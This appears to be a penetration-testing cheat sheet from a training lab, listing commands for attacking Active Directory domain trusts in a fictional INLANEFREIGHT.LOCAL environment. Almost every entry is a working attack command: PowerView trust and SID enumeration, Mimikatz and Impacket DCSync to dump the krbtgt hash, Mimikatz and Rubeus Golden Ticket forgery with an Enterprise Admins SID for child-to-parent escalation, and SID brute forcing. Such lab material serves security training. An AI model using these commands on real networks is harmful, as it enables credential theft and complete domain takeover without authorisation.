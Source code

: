 `Get-ADTrust -Filter *`

    PowerShell cmd-let used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host.

`Get-DomainTrust`

    PowerView tool used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host.

`Get-DomainTrustMapping`

    PowerView tool used to perform a domain trust mapping from a Windows-based host.

`Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName`

    PowerView tools used to enumerate users in a target child domain from a Windows-based host.

`mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt`

    Uses Mimikatz to obtain the `KRBTGT` account's `NT Hash` from a Windows-based host.

`Get-DomainSID`

    PowerView tool used to get the SID for a target child domain from a Windows-based host.

`Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid`

    PowerView tool used to obtain the `Enterprise Admins` group's SID from a Windows-based host.

`ls \\academy-ea-dc01.inlanefreight.local\c$`

    Used to attempt to list the contents of the C drive on a target Domain Controller. Performed from a Windows-based host.

`mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt`

    Uses `Mimikatz` to create a `Golden Ticket` from a Windows-based host .

`.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt`

    Uses `Rubeus` to create a `Golden Ticket` from a Windows-based host.

`mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm`

    Uses `Mimikatz` to perform a DCSync attack from a Windows-based host.

`secretsdump.py logistics.inlanefreight.local/lafi@172.16.5.240 -just-dc-user LOGISTICS/krbtgt`

    Impacket tool used to perform a DCSync attack from a Linux-based host.

`lookupsid.py logistics.inlanefreight.local/lafi@172.16.5.240`

    Impacket tool used to perform a `SID Brute forcing` attack from a Linux-based host.

`lookupsid.py logistics.inlanefreight.local/lafi@172.16.5.240 | grep "Domain SID"`

    Impacket tool used to retrieve the SID of a target Windows domain from a Linux-based host.
